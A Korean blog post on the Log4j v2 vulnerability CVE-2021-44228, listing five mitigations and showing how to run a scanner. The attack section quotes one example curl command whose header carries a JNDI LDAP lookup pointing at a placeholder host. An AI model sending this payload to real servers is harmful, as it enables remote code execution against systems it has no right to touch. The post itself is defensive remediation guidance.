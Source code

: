 ```yaml
---
template: post
draft: false
image: img/cover.jpg
date: 2021-12-12 16:16:22 +09:00
title: "Apache Log4j v2 취약점 [CVE-2021-44228]"
excerpt: Apache Log4j v2 취약점 취약점 및 해결방법에 대해 알아봅니다.
tags:
  - vulnerability
  - apache
  - log4j
  - log4j2
---
```


# 개요
 이 포스팅에서는 Apache의 **[Log4j v2](https://logging.apache.org/log4j/2.x)** 라이브러리의 취약점 [CVE-2021-44228](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-44228) 해결 방법에 대해 알아보겠습니다.   

# 요약
 이번 취약점은 Log4j의 v2에만 해당되며, 해당되는 세부 버전은 **<=2.14.1** 입니다. 
 취약점 해결 방법으로는 크게 5가지 방법이 있습니다.
1. Log4j 버전을 [2.15.0](https://github.com/apache/logging-log4j2/releases/tag/log4j-2.15.0-rc1) 이상으로 올린다. (Java **>=8** 필요)
2. `FormatMsgNoLookups` 값을 True로 설정한다. (Log4j **>=2.10** 필요)
3. PatternLayout 설정을 변경한다. (Log4j **>=2.7** 필요)
4. `JndiLookup`, `JndiManager` 클래스를 제거한다. (모든 Log4j에 적용 가능)
5. Log4j를 사용하지 않는다.

# 취약점 해결법
 다음 5가지 항목중 하나를 적용함으로 취약점 해결이 가능합니다.

## Log4j 버전을 2.15.0 이상으로 변경
 별다른 설정 없이 Log4j 버전을 **>=2.15.0**로 올림으로 취약점 해결이 가능합니다.  
 단, Java **>=8**을 사용하는 환경에서만 가능합니다.  
 
 만약 Java **<8**을 사용한다면 다른 해결 방법을 적용하도록 합니다.

## FormatMsgNoLookups 값을 True로 설정
 Log4j 설정값 변경을 통해 취약점 해결이 가능합니다.  
 단, Log4j **>2.10**를 사용하는 환경에서만 가능합니다.  

 `log4j2.formatMsgNoLookups` 값을 True로 설정하면 되는데, Java 실행 옵션으로 `-Dlog4j2.formatMsgNoLookups=true`를 주면 됩니다.

## PatternLayout 설정 변경
 Log4j의 출력 패턴에 설정을 추가해서 해결이 가능합니다.  
 단, Log4j **>2.7**를 사용하는 환경에서만 가능합니다.  


 메세지를 출력하는 패턴인 `%m`, `%msg`, `%massage` 뒤에 **{nolookups}** 를 붙여서
`%m{nolookups}`, `%msg{nolookups}`, `%massage{nolookups}`로 설정하면 됩니다.

## JndiLookup, JndiManager 클래스 제거
 `log4j-core.jar`의 `JdniLookup`, `JdniManager` 클래스를 제거해서 해결이 가능합니다.  

 [KISA에서 제안](https://www.krcert.or.kr/data/secNoticeView.do?bulletin_writing_sequence=36389)하는 다음 명령어를 실행하면 됩니다.
`zip -q -d log4j-core-*.jar org/apache/logging/log4j/core/lookup/JndiLookup.class` 

## Log4j 제거
 원천적인 방법으로 취약점이 있는 Log4j를 사용하지 않음으로 해결이 가능합니다.

# 취약점 공격 방식
 이번 취약점 공격 방식은 원격 코드를 실행(RCE, Remote Code Execution)하는 방식으로, Log4j에서 남기는 로그 메세지에
원격의 자바 객체 주소를 포함시켜 실행하는 공격 방식이라고 합니다.  

 [Ahnlab에서 제공하는 공격의 예시](https://asec.ahnlab.com/ko/29479)로는 다음과 같은 명령을 실행하도록 해서 xxx.xxx.xxx.xxx/a 에 위치한 자바 객체를 자동으로 서버에서 실행 시키도록 한다고 합니다.  
`curl 127.0.0.1:8080 -H ‘X-Api-Version: ${jndi:ldap://xxx.xxx.xxx.xxx/a}’`


# 취약한지 확인 방법
 [Logpresso 에서 제공하는 툴](https://github.com/logpresso/CVE-2021-44228-Scanner?fbclid=IwAR084knrPF7iODbRVnFPRqUfyF0vbmoHYRv8qRiBp4hhXaPSEtEHuOBz3yU)을 사용해서
취약한지 확인이 가능합니다.  
 사용 방법으로는 툴을 다운받은 후 다음 명령으로 실행하면 됩니다.

```bash
> log4j2-scan {target_path}
```

 그러면, 아래와 같이 취약한 부분에 대해 출력해줍니다.

```bash
CMD> log4j2-scan.exe D:\tmp
[*] Found CVE-2021-44228 vulnerability in D:\tmp\elasticsearch-7.16.0\bin\elasticsearch-sql-cli-7.16.0.jar, log4j 2.11.1
[*] Found CVE-2021-44228 vulnerability in D:\tmp\elasticsearch-7.16.0\lib\log4j-core-2.11.1.jar, log4j 2.11.1
[*] Found CVE-2021-44228 vulnerability in D:\tmp\flink-1.14.0\lib\log4j-core-2.14.1.jar, log4j 2.14.1
[*] Found CVE-2021-44228 vulnerability in D:\tmp\logstash-7.16.0\logstash-core\lib\jars\log4j-core-2.14.0.jar, log4j 2.14.0
[*] Found CVE-2021-44228 vulnerability in D:\tmp\logstash-7.16.0\vendor\bundle\jruby\2.5.0\gems\logstash-input-tcp-6.2.1-java\vendor\jar-dependencies\org\logstash\inputs\logstash-input-tcp\6.2.1\logstash-input-tcp-6.2.1.jar, log4j 2.9.1
[*] Found CVE-2021-44228 vulnerability in D:\tmp\solr-7.7.3\solr-7.7.3\contrib\prometheus-exporter\lib\log4j-core-2.11.0.jar, log4j 2.11.0
[*] Found CVE-2021-44228 vulnerability in D:\tmp\solr-7.7.3\solr-7.7.3\server\lib\ext\log4j-core-2.11.0.jar, log4j 2.11.0
[*] Found CVE-2021-44228 vulnerability in D:\tmp\solr-8.11.0\contrib\prometheus-exporter\lib\log4j-core-2.14.1.jar, log4j 2.14.1
[*] Found CVE-2021-44228 vulnerability in D:\tmp\solr-8.11.0\server\lib\ext\log4j-core-2.14.1.jar, log4j 2.14.1

Scanned 5047 directories and 26251 files
Found 9 vulnerable files
Completed in 0.42 seconds
```

 위 툴은 제공된 경로의 모든 하위경로의 **.jar** 파일을 찾고, 취약한 Log4j 버전이 사용되는지 확인해서 출력하는 방식이라고 합니다.

# 줄이며...
 지금까지 Log4j v2의 취약점 해결 방법에 대해 알아보았습니다.  
 많은 프로젝트에서 사용하는 라이브러리에 크리티컬한 취약점 발생시, 그 여파가 얼마나 큰지 느낄 수 있는 경험이었습니다.
